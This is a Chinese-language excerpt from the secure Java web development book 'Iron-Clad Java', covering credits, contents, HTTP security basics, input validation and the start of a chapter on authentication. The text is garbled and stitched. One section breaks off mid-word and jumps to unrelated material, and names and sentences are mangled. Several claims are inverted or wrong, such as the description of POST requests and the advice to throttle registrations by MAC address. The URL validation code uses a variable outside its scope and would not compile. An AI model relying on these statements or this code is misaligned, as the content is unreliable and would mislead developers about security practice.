# Iron-Clad Java：安全 Web 应用构建指南 (Oracle Press)


贡献作者：Kevin Kenan

技术编辑：Milton Smith

Oracle 高级首席安全产品经理，Java





赞助编辑

Brandi Shailer

编辑主管

Jody McKenzie

项目经理

Yashita Hota,

Cenveo Publisher Services

采购协调

Amanda Russell

技术编辑

Milton Smith

文字编辑

Nancy Rapoport

校对

Andrew Fox

索引

James Mimnik

制作监制

Jean Bordeaux

排版

Cenveo Publisher Services

插图

Cenveo Publisher Services

封面艺术总

Jeff Weeks

*Weim*


致所有曾从事安全相关工作或致力于确保应用程序安全的开发人员、安全专业人士：这本书是给你们的。保持好奇心。同时也给任何渴望学习新知识的人。

# 关于作者

Jim Manico（夏威夷州）是一位作家和教育工作者。他是安全领域的频繁演讲者，OWASP 基金会的全球董事会成员，负责协助推动战略愿景。他曾贡献于多个 OWASP 项目，包括快速参考表（Cheat Sheet）系列。更多信息请访问 `www.linkedin.com/in/manico`。

August Detlefsen（加利福尼亚州）是一位高级应用安全顾问，在软件开发和安全架构方面拥有超过十八年的经验。他服务于金融、医疗、移动和技术领域的主要客户。他是达茅斯学院毕业生，OWASP 成员。他开发了协助渗透测试的工具，包括测试特定框架的 Burp Suite 扩展。August 还开发了 Jackacking Defense，这是目前防止劫持（jackacking）的金标准。

# 关于技术编辑

Milton Smith（加利福尼亚州）在 Oracle 担任高级安全经理，领导 Java 平台产品的战略安全计划。Milton 负责定义 Java 安全愿景，并管理与安全组织、研究人员以及整个行业的关系。在加入 Oracle 之前，Milton 领导 Yahoo 用户数据分析（UDA）部门的安全工作。更多信息请访问 `https://www.linkedin.com/in/spoof` 或 `www.securitycurudgeon.com`。

基础输入验证考量：20

输入长度：20

数值输入验证：20

开放性文本输入验证：20

输入验证的正向模式：URL 验证：21

接下我们该向何方发展？ 22

- 如何对抗点击劫持 ... 134
  - 逃出框架 ... 135
- 传输中数据安全 ... 139
  - 协议版本 ... 142
  - 加密套件 (Cipher Suites) ... 142
  - 证书验证 ... 145
  - 信任管理器 (Trust Managers) ... 147
  - 证书与密钥管理 ... 149
  - 证书钉化 (Certificate Pinning) ... 156
- 存储中数据安全 ... 159
  - 加密与签名 ... 160
  - 对称与非对称加密学 ... 161
  - 密钥集 (Keysets) ... 161
  - Keyczar 中的密钥管理 ... 163
  - 加密与解密 ... 166
  - 签名与验证 ... 170
- 密钥管理 ... 172
- 安全随机数 ... 174
- 总结 ... 177
- 安全的错误处理 ... 231

## 前言

今天产品安全面临的最大挑战是安全质量对于消费者难以评估。一个很少考虑安全设计且安全态薄弱的产品，几乎不会表现出外在的不安全事件。软件安全就像性能和扩展性一样，无法通过视觉进行有效评估，需要专业的工具和培训。在真空状态下，除非有消息动摇这种信心，否则消费者通常认为产品是安全且良好的。因此，由于业务领导者面临的竞争压力和为客户提供更多价值的压力日益增大，安全往往为了交付更多功能而被边缘化。当消费者假设卓越已经存在时，追求卓越的激励就非常小了。

# 致谢

这本书是作者心血的结晶。我们在频繁的旅行、深夜的狂热代码编写以及其他生活责任的间隙中写成了此书。我们经常在思考下一章内容以及下一件需要评审的作品时彻夜未眠。作为首次写书的作者，我们完全不知道该预料什么。如果可以重新开始，我们仍会这样做。和你们一样，我们也是安全工程的学生，我们觉得在写作过程中学到的知识比想象中多得多。我们希望我们对应用安全的热情转化成这本书，帮助你们编写安全的应用程序。

我们要感谢以下人员的贡献：

- Stephen Northutt，将 Jim 引入了信息安全及其他领域。
- Dave Wichers 和 Jeff Williams 在安全编码方面提供的许多教导。
- Milton Smith，你提供的远超技术编辑；没有你，Milton 无法完成这项工作。
- Brandi Shailer 和 Amanda Russell，即使在压力下，与你们两位的工作一直是一件乐事。
- John Steven，他在密码存储方面的工作，以及他在该领域的奉献使他发表了关于该主题的 30 多页威胁模型，John，继续向上攀爬你的吧。
- Brian Bertacini 和 Brian Shura，他们在信息安全领域提供的极佳建议、教育和正直精神。
- Jeff Ichnowski, Jeremy Long 和 Mike Samuel——他们创建的工具为 Java 安全编码控制树立了新标准。
- OWASP 基金背后的众多国际志愿者，以及对应用安全狂热且痴迷的兴趣。
- 我们的妻子 Tracey 和 Catherine，没有她们的爱与理解，这本书永远无法完成。

# 引言

如今的 Web 应用正面临着攻击。这本书将帮助你理解当今针对 Web 应用最常见的威胁。你还将学习各种防御技术，帮助你加固 Java Web 应用以防止这些攻击成功。以下章节介绍了你将在书中看到的内容。

# 第 1 章：Web 应用安全基础

在本章中，你将学习 HTTP 协议的内部运作，学习使用拦截代理篡改请求的基础知识，并回顾各种 HTTP 安全响应头。

# 第 2 章：身份验证与会话管理

你将探索构建完整的安全登录机制所需的安全控制。你将学习停止暴力破解、用户名采集和会话劫取等攻击的技术。我们还回顾了安全存储密码的正确方法。

在本章中，你将学习访问控制设计模式，例如基于角色的访问控制和基于活动的访问控制。你还将回顾任何访问控制机制都应该考虑的广泛最佳实践。

在本章中，你将学习跨站脚本（XSS）以及在构建用户界面代码时如何使用上下文输出编码。你还将学习 HTML 过滤技术、JSON 的安全使用以及为了安全的正确 JavaScript 用。

你将学习同步令牌模式（synchronizer token pattern）以及帮助你保护敏感交易的技术。你还将学习"破解框架"（framebusting）技术以减少点击劫持攻击的可能性。

你将学习配置和使用 TLS。你还将学习严格传输安全（HSTS）、证书固定化以及如何使用 Google KeyStore 库。

在本章中，你将学习查询参数化和变量绑定以防止 SQL 注入。你还将学习保护代码免受 XML 注入、JSON 注入和命令注入。

在本章中，你将学习在应用程序中安全执行文件 I/O 操作的技术。你还将学习如何构建安全的快速上传机制。

你将学习如何使用几个第三方 Java 库进行以安全为中心的日志记录。我们还回顾了如何防止代码在出错时泄露过多信息。此外，你还学习了多种入侵检测技术，在应用程序受到攻击时提醒你。

在本章中，你将学习组建一个安全的开发团队，并学习如何将安全集成到软件开发周期的每个阶段。

本附录提供了用于安全编码和安全的资源。

本书适用于以下读者：

- 构建 Web 应用和 Web 服务的 Java 开发者
- 帮助 Web 项目的项目经理
- 需要安全编码技术的开发者
- 需要安全技术的技术经理或顾问

# Web 应用安全基础



图 1-1. 在 Firefox 中更改代理服务器设置

SSL 呢？HTTPS 是加密的，所以它是安全的吧？事实上，HTTPS 只保护传输中的数据，且通常只对服务器端进行身份验证。客户端证书并不常见。即使客户端使用客户端证书进行身份验证，其计算机仍然可能受到恶意软件或仅仅坐在未解锁工作站上的攻击者的侵害。底线是，你不能信任从客户端接收的数据，即使是来自信任的用户。



图 1-2. 浏览器配置为连接到不存在的代理

HTTP 请求是唯一不可信的数据吗？如果是，那么安全应该很容易——只需验证每个输入，就永远不会发生泄露？遗憾的是，现代 Web 应用程序不仅依赖于浏览网站的用户提供的输入。应用程序还使用来自数据库、RSS 馈、Web 服务、系统其他用户或管理员创建的数据以及一系列其他来源的数据。为了真正保护你的 Web 应用程序，你必须将所有这些其他源视为不可信数据，并安全地处理它们。正如你将在书后面的部分看到的，安全的数据处理意味着对进入 Web 应用程序的所有数据源进行适当验证，并在数据离开应用程序到达、数据库或其他位置时进行适当编码。



图 1-3. Web 流量被 OWASP ZAP 拦截并记录

我们将这种情况视为"安全质量"。当我们编写程序时，会包含业务规则以确保数据符合业务需求。安全在现实中也是如此，但有一个值得注意的例外：大多数安全需求并没有显式定义。相反，它们通常被归类为性能等非功能性业务需求。在某种意义上，安全需求必须是流动的，以适应不断变化的威胁格局。然而，正如我们将在书中所看到的，我们开发者必须规划的威胁其实很少，以便构建出成功且安全的应用程序。



## HTTP 安全考虑

为了构建安全的 Web 应用，对 HTTP 协议有一个基本的理解是很。HTTP 或超文本传输协议是一种简单、无状态的响应协议，驱动了绝大多数的 Web 流量。

HTTPS 或超文本传输安全协议提供了多种不同的加密服务来保护用户数据传输，例如保护数据在有线或无线网络上传输期间。HTTPS 提供了机密性（保护你的数据不被看到）、完整性（防止你的数据被篡改）和身份验证（确保你访问的域名确实是该域名的真实版本）等优势。

并不是所有的 HTTPS 都相同。密码套在浏览器和服务器之间进行协商，以确定会话传输的加密强度。协商过程确保了不同类型和版本的浏览器以及 Web 服务器可以在不安全的网络上安全地协作。这意味着不同 HTTPS 服务器之间，HTTPS 连接的加密强度可能存在很大。大多数浏览器会显示锁形图标或其他指示正在使用 HTTPS，但最终在浏览网站时，协商出的密码套件结果对用户来说并不直观。我们将在第 6 章"保护敏感数据"中讨论 HTTPS。

## HTTP/S GET 请求

HTTP 请求由几个基本部分组成。这些包括 HTTP 动、请求的资源、HTTP 版本、头部和参数。

```
GET http://www.oracle.com/index.html?locale=US&lang=en HTTP/1.1

User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.9)
Gecko/20100101 Firefox/29.0
```

在前面的示例中，HTTP 动词是"GET"，请求的资源是"http://www.oracle.com/index.html"，HTTP 版本是"HTTP/1.1"。头部包括"User-Agent"、"Accept"和"Host"。参数是"locale=US&lang=en"。

User-Agent "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.9) Gecko/20100101 Firefox/29.0" 标识了浏览器类型。

可以使用拦截代理或类似工具修改请求的任何部分。

```
GET https://www.codemagi.com/ HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.9)
Gecko/20100101 Firefox/29.0
Accept: text/html,application/xml,application/xml;q=0.9/*
Accept-Language: en-US,q=0
```

许多用户操作将触发 HTTP 请求。点击链接、在栏中输入 URL、提交表单、选择书签或保持页面打开可能会触发 AJAX 请求。

遗憾的是，即使通过 HTTPS 请求站点，HTTP 头部仍然可见。例如，如果你在 A 网站点击一个链接跳转到 B 网站，那么指向 B 网站请求中的 HTTP 头部将包含 A 网站的完整 URL。

例如，以下指向邮轮网站的请求包含来自广告网络（googleads.g.doubleclick.net）的引用头部。这对邮轮公司是有价值的，因为这允许他们追踪来自哪个广告网络。

```
GET http://www.ncl.com/?7clid=CM9qzwwib4CFZJJodCCA HTTP/1.1
User-Agent: [omitted]
Accept: [omitted]
Accept: text/html,application/xml,application/xml;q=0.9/*
Accept-Language: en-US,q=0
Referer: http://googleads.g.doubleclick.net/page/ads?client=omitted
Connection: keep-alive
Host: www.ncl.com
```

但如果敏感数据包含在 URL 中，引用头部将会将这些数据泄露给其他站点：

```
GET https://www.codemagi.com/ HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.9)
Gecko/20100101 Firefox/29.0
```

Accept-Language: en-US,en:q=0.5

Referer: http://manico.net/login?user=Jim&pass=FluffyBunnyl!

Connection: keep-alive

Host: www.codemagi.com

HTTP POST 请求是传输敏感数据的更安全的方式。

以下 POST 请求具有三个属性，允许安全传输敏感数据：POST 请求是一个 HTTP 请求，HTTPS 动词为 POST，并且敏感数据位于主体（body）而不是 URL 中。

```
POST https://www.codemagi.com/user/login HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.9; rv:29.0)
Gecko/2010101 Firefox/29.0
Accept: text/html,application/xml,q=0.9,**
Accept-Language: en-US,en:q=0.5
Referer: http://www.codemagi.com/
Cookie: SESSIONID=39189CF2C3D7C95AE82B1E808F8F
utma=13951103.202831970.139818959.139818959.139818959;
tmb=13951103.2.10.139818959.__utmc=13951103
utz=13951103.139818959.1.utmccr=(direct) |utmccn=(direct)
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Host: www.codemagi.com
```

```
action=login&start_in=&username=August&password=FluffyBunny
```

通过将参数放在请求主体而不是 URL 中，提交的数据不会在浏览器历史列表、Referer 请求头或服务器访问日志中泄露。

> 提示：仅通过 HTTP POST 的主体中提交敏感数据！

当 HTTP 服务器接收请求时，它将返回一个 HTTP 响应，其中包含 HTTP 版本和响应码、响应头以及响应主体。响应主体通常是 HTML，也可以是 XML，


JSON，或者像图像或文档之类的二进制文件。一个典型的 HTTP 响应看起来如下：


```http
HTTP/1.1 200 OK
Date: Thu, 01 May 2014 04:00:32 GMT
Server: Apache
Content-Type: text/html;charset=UTF-8
Set-Cookie: JSESSIONID=3701355FAA6576DC3FD8C2E97E340E4;
Path=/; Secure=HttpOnly
Vary: Accept-Encoding
Strict-Transport-Security: max-age=31536000
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
<!DOCTYPE html>
<html lang="en-US">
<head>
... 更多的 HTML ...
</body>
</html>
```

上述响应的第一行表示请求成功（`200 OK`）。响应还包含了指示浏览器应如何处理响应的响应头（`Content-Type`、`Strict-Security` 等）。`Set-Cookie` 响应头指示在每个随后的请求中发送一个包含唯一数字和字母序列的 `JSESSIONID` 密钥。这将允许服务器维护会话并为用户提供个性化内容。最后，响应的主体包含将由浏览器渲染的实际 HTML 页面。

近年来，各种以安全为中心的 HTTP 响应头已经在大多数浏览器中实现了标准化。这些“浏览器标准”响应头通常是为你的 Web 应用添加安全性的简单方法。

## Cache-Control HTTP 响应头

较旧的 HTTP 安全响应头之一是 `Cache-control` HTTP 响应头。该响应头是一个指令，告诉浏览器不要缓存敏感数据。

```http
Cache-control: no-cache, no-store, must-revalidate
Expires: -1
```

`No-cache` 表示浏览器在每次请求时都应该验证数据。`No-store` 表示从根本上不应存储请求或响应的任何部分。`Must-revalidate` 表示在任何情况下浏览器都不应提供过期的内容。

`Expires` 响应头告诉浏览器内容何时过期，从而再次从服务器请求内容。负值或久远以前的值应始终强制内容立即过期。

注意，这些响应头对于通过在用户浏览器中长时间缓存图像和样式表等静态内容来提高你网站的性能非常有用。这将减少带宽消耗，并使服务器更能够抵抗拒绝服务攻击。必须确保此类静态内容被缓存，但任何敏感的或用户-

某些框架或应用程序要求程序员在每一个单独的操作中手动添加检查，以判断用户是否登录。某些框架使用过滤器来确保所有请求都经过身份验证。无论如何，确保所有经过身份验证的操作确实包含适当且有效的会话至关重要。我们将在第 2 章中详细讨论身份验证和会话管理。

除了身份验证，确保用户对所有操作都经过了正确的验证（即用户拥有正确的访问控制权限）也至关重要。我们将在第 3 章中讨论访问控制设计。

针对应用程序最危险的攻击之一是跨站请求伪造（CSRF）。所有敏感事务都必须使用同步令牌或类似的机制进行保护。我们将在第 5 章中讨论跨站请求伪造和各种 CSRF 防御策略。

这只是开始。我们将在接下来的章节中讨论各种正安全模式。

攻击者经常通过发送精心构造的输入来负面影响程序的行为，从而在软件应用程序中立足。与预期功能和设计不符的输入通常会导致应用程序以意想不到的方式运行。垃圾数据就是纯粹的利用金矿。本节将讨论最基础的安全编码技术之一：输入验证。输入验证是任何 Web 应用程序“第一道防线”之一。

攻击者通过在合法的输入字段、Cookie 和 HTTP 请求的其他部分中添加攻击字符串来破解你的 Web 应用程序。很多情况下，这种操作是通过修改使得 HTTP 请求仍然保持合法来实现的：HTTP 协议本身并因为这些攻击而失效。输入验证是一种限制 Web 应用程序合法接受内容的编程技术。适当的输入验证定义了允许的数据并拒绝其他数据。通过验证后，数据就可以由应用程序的业务逻辑层进行处理。这是安全 Web 应用程序所需的多个重要防御层之一。

我们用于输入验证的主要技术产物之一是正则表达式。正则表达式由包含元字符序列的命令组成。这些命令用于字符串匹配操作，并且是最常用的输入验证技术。

黑名单或负面验证定义了攻击的样子并将其拦截。这是一种有趣且有时有效的入侵检测形式，但它不是一种强大的防御。黑名单验证可能会阻止针对应用程序的一些非常为人知的攻击，但它不是能阻止所有攻击的控制措施。对于黑客来说，尝试新事物有巨大的动力且风险相对较小。威胁格局将不断演变，本质上有无限可能的攻击模式需要拦截。有许多类型的“过滤规避技术”，例如对攻击进行编码，或提交可能包含攻击的输入（例如 SQL 注入邮箱地址 `-@manico.net`）。市上的商业“模糊器”（fuzzers）可以不断用细微变化的输入轰炸你的应用程序，直到发现漏洞。单是这些就能让维护黑名单在最好的情况下也成为一项艰巨的任务。在第 9 章中，我们将讨论使用黑名单检测已知攻击的方法，但黑名单绝不是防御所有攻击的手段。虽然黑名单验证可以是保护应用程序的拼图碎片之一，但请不要依赖它。

我们不应该从尝试阻止已知的坏字符（黑名单）开始，而应该从仅定义已知的字符和模式开始（白名单）。例如，电话号码输入字段应该只接受数字。即使我们允许用户提交格式化的电话号码（例如 `"+1 (518) 555-5785"`），极小范围的字符也是可接受的。这些包括数字、空格、连字符、括号以及可能用于国际号码的加号。任何包含此狭窄可接受字符和模式（白名单）之外内容的输入都应该被拒绝并记录为潜在攻击。有时坏输入是用户的误操作，有时它处于灰色地带，有时它显然是攻击。通过记录这些输入验证错误，我们为运营团队提供了审查潜在安全问题的机会。

> 默认情况下，拒绝特定字符以外的所有字符。

### 输入验证反模式：正则表达式和 ReDoS

## 输入验证：Apache Struts

几乎每个 Java 框架都包含某种形式的输入验证。为了使其工作，你需要使用它。例如，Apache Struts 2.3 提供了一个可扩展且功能丰富的输入验证框架，其中包含了错误消息中的国际化等功能。以下是一个基本的日期范围验证配置的示例。

```xml
<validators>
  <field name="date">
    <field-validator type="date">
      <param name="min">04/20/2015</param>
      <param name="max">12/31/2015</param>
    </field-validator>
  </field>
</validators>
```

Apache Struts 2.3 还提供了许多简单正则表达式之外的各种默认验证器。这些包括：

```xml
<validator name="required"
class="com.opensymphony.RequiredFieldValidator>
...
```

```xml
<message>日期必须在 2015 年 4 月 20 日至 2015 年 12 月 31 日之间</message>
</field></field>
</validators>
```

## 基础输入验证考量

### 输入长度

输入验证中一个经常被忽视的领域是验证用户输入的最小和最大长度。通过字符串 API 或正则表达式，验证用户输入的长度都是一项简单任务。如果你忘记了这一步，用户可能会向你的应用程序发送极其大量的用户输入并造成危害。Django 框架曾因为没有验证密码的用户输入长度而导致过严重的拒绝服务漏洞。对于一个使用以蛇命名的劣质语言的项目，你还能期待什么呢？我们这儿可是喝咖啡的人！

## 验证数值输入

Java 语言的优之处之一是各种数值类。验证本应该是数值类的原始用户输入是一项相当简单的尝试。所有数值类都包含一个静态 `parse` 函数，它接收字符串输入并将其转换为正式的数值类。例如：

```java
Integer.parseInt(String rawInput) throws NumberFormatException
```

它将接收一个字符串并转换为 `Integer` 实例，如果输入不是整数，则抛出 `NumberFormatException`。这些类非常适合数值输入验证。尽快将用户的字符串数值输入转换为正式的 Java 数值类！

## 验证开放文本输入

大多数新闻网站、社交媒体、博客和类似网站允许用户提交开放文本作为评论。你打算允许哪些字符？大写和小字母！数字！标点符号？猜猜看——那是攻击者对你的应用程序造成危害所需的。验证开放文本确实减少了应用程序的攻击面（换句话说，如果应用程序中没有输入验证，接受的输入将会更少）。但验证开放文本输入并不意味着

> 5 http://arstechnica.com/security/2013/09/long-passwords-are-good-but-too-much-length-can-be-bad-for-security/

该输入是安全的。许多安全编码书籍都赞扬输入验证是软件安全的首要防御层。我们认为，针对恶意格式输入，查询参数化、编码和转义（Escaping）都比输入验证重要得多。输入验证确实是强有力的深度防御的重要部分，但不要仅仅依赖输入验证！


## 输入验证提示

对所有输入应用输入验证程序，但不要依赖它，特别是当输入是开放文本时。

验证用户的 URL（如来自社交媒体的链接）是一项具有挑战性的任务。使用正则表达式来验证 URL 是一件复杂且容易出错的事情。由 Jeff Ichnowski（OWASP Java Encoder 项目的作者）编写的代码片段展示了验证不可信 URL 的复杂性。

```java
public static String validateURL(String rawURI, boolean absoluteURLOnly) 
    throws ValidationException {
    if (rawURI == null) return "";
    try {
        URI uri = new URI(rawURI);
        // 如果 URI 无效则抛出 URISyntaxException
    } catch (URISyntaxException use) {
        throw new ValidationException(use.getMessage());
    }

    // 不允许相对 URL
    if (absoluteURLOnly) {
        if (!uri.isAbsolute()) {
            throw new ValidationException("non absolute URI");
        }
    }

    // 不允许 javascript URL,...
    if (!"http".equals(uri.getScheme()) &&
        !"https".equals(uri.getScheme())) {
        throw new ValidationException("we only support HTTP");
```


```java
// 谁会在 URL 中合法地使用 user-infos？！
if (uri.getUserInfo() != null)
    throw new ValidationException("this can only be trouble");

// 规范化以移除 '.' 和 '..' 路径组件
uri = uri.normalize(); // 移除 '.' 和 '..'

// 检查：针对白名单/黑名单检查 uri.getHost()
// 检查：uri.getPort() 是否存在猫腻？
return uri.toASCIISString();

}
```

## 我们接下来该如何做？

高级应用安全专家 Jeremy Long 曾告诉我：“我可以构建一个完全安全的 Web 应用程序，并跳过所有输入验证。”我赞叹他评论的深度。虽然输入验证是限制用户可能提交到应用程序中的内容的重要防御层，但它通常不是你可以完全依赖的层，特别是在验证复杂的字符串输入时。随着这些内容的展开，我们将深入描述各种其他措施，即使在验证过的用户输入仍包含攻击数据时，也能帮助防御你的应用程序。让我们深入吧！


# 第二章：身份认证与会话管理

## 铁甲 Java：构建安全的 Web

身份认证是任何安全 Web 应用程序的大门。认证用于建立用户的身份，没有了它，网站的其他功能（如授权）就无法运行。认证主题包括登录过程、会话管理、密码存储、身份联邦以及其他几个子主题。本章将探讨开发者在构建认证方面需要了解的。我们将提供围绕登录过程、会话管理、密码存储和身份联邦的几种技术。让我们开始吧！

## 新用户注册

对于以消费者为中心的网站，注册过程通常是第一次交互。如果“忘记密码”或其他身份验证流程需要回答一个或多个安全问题，现在是提示用户设置它们的时候。特别是对于移动应用程序，注册过程可能是复杂的。你的注册至少应该请求用户名、电子邮件地址和密码。

## 谁应该构建认证？

认证是安全极关重要的层。每当你构建一个新项目时，不要“重复造轮子”是非常关重要的。特别是对于大型企业，我们希望利用维护良好的认证服务。如果你发现自己在应用程序中构建认证层，最好有一个理由这么做！请确保你没有重写已经存在的层。

## 防止自动化注册

对于热门且高流量的网站，攻击者经常使用自动化手段注册大量账户用于恶意。这通常是我们推荐使用 CAPTCHA 的区域，但仅在检测到自动化尝试后。理想情况下，我们永远不想强制真实用户解决 CAPTCHA，因为即使以安全的方式构建，它们的用户体验也很差。总体而言，CAPTCHA 是一种相当弱的安全控制。幸运的是，有几种 CAPTCHA 的替代方案可以在不损害体验的情况下完成相同的防御任务。小的延迟（即连接限流）可以实现减少自动化注册的效果。在创建用户后，你的应用程序应该限制同一 MAC 地址或 IP 地址 15 分钟后才能注册另一个用户。这些技术可以显著降低注册机器人。

一种有助于防止自动化滥用的技术是添加额外的表单组件（例如文本字段），并使用 CSS 将其定位页面之外或使用其他方法使其对用户不可见。普通用户永远看不到也无法向这个“隐藏”的文本字段填充任何数据。

```html
<input type="text" name="company" value="Input Company Name" style="position:absolute;left:-1000px;">
```

注册机器人经常填充表单字段，因为它们不感知 CSS，或者至少很容易识别出样式隐藏了表单组件。当在服务器上处理注册提交时，如果此隐藏参数为空字符串以外的任何内容，你就知道来自机器人，可以安全地忽略并记录该注册提交。（有关安全相关事件的适当记录将在第九章讨论。）

¹“Com Automated Public Turing test to tell Computers and Humans Apart,” http://en.wikipedia.org/wiki/CAPTCHA

² http://textcaptcha.com/really

# 登录流程的基本流程与会话管理

在详细描述针对身份验证的攻击之前，让我们先讨论一下登录流程的基本流程。如图 2-1 所示，有许多步骤需要考虑，例如如何使用 HTTPS、如何管理会话和超时、如何处理凭据以及如何结束会话。

## 登录工作流步骤 1：首次访问创建匿名会话

当用户首次访问你的网站时，JEE 会在用户登录之前自动创建一个会话并设置 `JSESSIONID` cookie。跟踪用户的匿名网站行为是恰当且有用的，特别是对于电子商务网站而言。例如，你可能希望跟踪用户查看了产品，以便提供针对性的广告或通过其他方式更改和改进用户体验。

然而，需要注意的是，你在用户登录之前支持匿名会话时，攻击者可以随时生成活跃的会话 ID。如果攻击者能够欺骗用户使用已知会话 ID，可能会导致一种非常危险的情况，称为“会话固定”（session fixation），我们稍后会详细讨论这一点。



图 2-1 登录与会话管理流程

## 登录工作流步骤 2：启动 HTTPS 和传输加密

正如我们在第 6 章中讨论的，HTTPS 提供了机密性（间谍无法看到你的数据）、完整性（间谍无法修改你的数据）和真实性（通过证书机构系统的权威，浏览器可以验证用户访问的是否为该域名的站点）。

考虑到这一点，只要你通过 HTTPS 安全地提交密码，通过 HTTP 交付登录表单（“登录落地页”）是安全的吗？答案是否定的。通过 HTTPS 交付登录表单至关重要。为什么？许多网站通过 HTTP 交付表单，但通过 HTTPS 保护密码，这是一种非常糟糕的做法。考虑这个基础登录表单：

```html
<form method="post" action="Loginprocessing.do">
<input type="text" name="username">
<input type="password" name="password">
<input type="submit" name="commit" value="Login">
</form>
```

